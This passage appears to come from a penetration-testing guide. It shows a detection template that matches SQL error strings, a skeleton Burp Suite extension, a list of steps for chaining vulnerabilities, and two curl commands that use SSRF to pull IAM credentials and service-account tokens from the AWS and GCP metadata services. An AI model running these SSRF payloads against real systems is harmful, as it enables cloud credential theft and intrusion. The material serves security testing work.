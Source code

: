 ```
    matchers:
      - type: word
        words:
          - "mysql"
          - "syntax error"
          - "ORA-"
        condition: or
```

### Burp Suite Extensions
```python
# Custom Burp extension for specialized testing
from burp import IBurpExtender, IHttpListener

class CustomSecurityTester(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("Custom Security Tester")
        callbacks.registerHttpListener(self)
    
    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if messageIsRequest:
            self.analyze_request(messageInfo)
    
    def analyze_request(self, messageInfo):
        # Custom security analysis logic
        request = messageInfo.getRequest()
        # Implement custom vulnerability detection
```

## Advanced Exploitation Scenarios

### Vulnerability Chaining Example
1. **Information Disclosure** → User enumeration via error messages
2. **Authentication Bypass** → Weak password reset functionality
3. **Privilege Escalation** → Admin panel access through IDOR
4. **Data Exfiltration** → Sensitive data access through SQL injection

### Cloud Security Exploitation
```bash
# AWS metadata service exploitation via SSRF
curl -H "X-Forwarded-For: 169.254.169.254" \
  "https://target.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# GCP metadata exploitation
curl -H "Metadata-Flavor: Google" \
  "https://target.com/fetch?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
```

